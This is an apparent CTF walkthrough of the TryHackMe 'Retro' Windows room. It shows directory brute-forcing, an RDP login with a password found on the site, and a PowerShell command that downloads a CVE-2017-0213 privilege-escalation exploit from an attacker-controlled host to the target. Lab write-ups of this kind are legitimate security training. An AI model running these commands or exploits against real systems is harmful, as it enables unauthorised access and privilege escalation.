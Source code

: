 ```yaml
---
date: 2025-01-25
categories: [CTF, THM]
title: "THM - Retro"
tags: ['gobuster', 'nmap', 'privilege escalation', 'rce', 'windows']

description: "Retro - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Retro

NMAP

![image1](../resources/73bc979fd79147bfb7af953ba4eb1a47.png)


![image2](../resources/1c08683911c64c4a8de7ab4488b9b326.png)

Directory bruteforce:
```bash
gobuster dir -u http://10.10.216.131 -w /usr/share/seclists/Discovery/Web-Content/big.txt
```

![image3](../resources/cea9a1109b664188b46e5c75fac18af7.png)

`http://10.10.216.131/retro/`

![image4](../resources/ecb8a353b0464de992258ed05fcdc35a.png)

Looking at the page source - Found:


![image5](../resources/aa84b5b210c14fb08bc788310008a45a.png)


![image6](../resources/8696e847d65e4ddd801d2960a5832fcc.png)


![image7](../resources/ac7f5e9ba3c74e41913bd75892f4fda3.png)

`http://10.10.216.131/retro/index.php/author/wade/`

![image8](../resources/8c580b0666894cb0a628eb2fff9c6e60.png)

- Something that could be a password - **parzival**:

![image9](../resources/4ab9932580fc42f4b3e6d0418d90eda8.png)

- Port 3389 is open:
```bash
xfreerdp /v:10.10.216.131 /u:wade /p:"parzival" /dynamic-resolution /cert:ignore

```

![image10](../resources/6fa0765df1854a42934cf8573b6d301c.png)

We can read user.txt

Start enumeration:

```bash
query user
```

![image11](../resources/6a64b73af79f47eebd83fe8995593250.png)

```bash
whoami /all
```

![image12](../resources/432413d02bc74bcda5c1a249db2493a9.png)

- Open Chrome and check history


![image13](../resources/0f732021568b4242a94c0d3a0010085b.png)

[https://github.com/ycdxsb/WindowsPrivilegeEscalation](https://github.com/ycdxsb/WindowsPrivilegeEscalation#cve-2022-37969)


![image14](../resources/a2e47d8ae0b6463d96a007b78a545c0d.png)

**\*\* Check Recycle Bin for hhupd.exe file**


![image15](../resources/05db7a389b9e4be19737304ed40afcb1.png)

- **Run the program as administrator**


![image16](../resources/7359fc3702b44ad6a7ff7d4241d8ba1f.png)


![image17](../resources/374caaf6525f4934882a7e8347f517fc.png)


![image18](../resources/cf7819f17efd4086a98c2442ecd7d308.png)


![image19](../resources/adfa477c1b1c45379dfd2a4adce57c42.png)


![image20](../resources/8a45a11c811e4e8c952fc72f54464a45.png)

- Kept getting to this point but no programs show up

- Found a hint:
Make sure to open Internet Explorer and Chrome BEFORE running the program

But still doesn't work

- Wes-NG suggested CVE-2017-0213
<https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213>

Download and extract the zip file and transfer to the windows machine:

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8081/CVE-2017-0213_x64.exe', 'C:\Users\wade\CVE-2017-0213_x64.exe')

```
And just run it


![image21](../resources/8c1c874c7d304ce998d28d29ffefe7bb.png)

Read root.txt